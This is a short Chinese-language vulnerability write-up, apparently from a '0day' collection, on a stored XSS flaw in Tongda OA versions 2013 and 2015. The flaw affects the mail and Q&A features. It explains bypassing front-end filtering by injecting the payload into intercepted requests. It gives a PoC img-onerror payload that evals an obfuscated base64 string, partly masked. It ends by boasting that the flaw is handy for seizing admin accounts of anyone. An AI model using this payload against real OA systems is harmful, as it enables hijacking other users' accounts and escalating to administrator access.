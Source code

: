 # 通达 oa xss

> 原文：[http://book.iwonder.run/0day/通达 oa/8.html](http://book.iwonder.run/0day/通达 oa/8.html)

## 一、漏洞简介

## 二、漏洞影响

2013、2015 版本

## 三、复现过程

发邮件的地方、问题问答的地⽅都存在 XSS，可获取他人账号权限。⼀般情况下，OA 会有前端进行过滤， 所以抓包时候去添加 payload，之后会对事件进行过滤，所以使用

poc

```
<img src=x onerror=eval(atob('cz1jcmVXXXXXytNYXRoXXXXXXXXhbmRvbSgp'))> 
```

![image](img/499e84bfd45d4b20906c7ae421769b1d.png)

![image](img/5193903b4322679b08492d99c92f5cab.png)

这个漏洞获取 admin 权限⾮常好用。想 X 谁 X 谁!

